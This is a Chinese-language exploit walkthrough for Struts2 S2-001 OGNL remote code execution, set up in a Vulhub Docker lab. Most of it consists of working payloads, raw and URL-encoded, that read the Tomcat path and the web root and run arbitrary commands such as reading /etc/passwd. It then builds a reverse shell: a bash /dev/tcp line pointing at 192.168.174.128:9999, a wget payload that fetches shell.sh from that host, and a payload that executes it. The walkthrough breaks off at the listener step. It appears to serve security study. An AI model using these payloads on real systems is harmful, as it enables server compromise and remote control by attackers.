




# Struts2 S2-001 远程代码执行漏洞

## 漏洞描述

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行.

参考阅读：

-  http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

## 环境搭建

Vulhub执行以下命令启动s2-001测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

```
# URLencode后
%25%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B%22id%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new%20java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```



### 反弹shell

准备反弹Shell文件shell.sh：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
```

启动http server：

```
# python2
python -m SimpleHTTPServer 80

# python3
python -m http.server 80
```

上传shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"wget","192.168.174.128/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



执行shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","/usr/local/tomcat/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



监听9999端口，接收反弹shell：



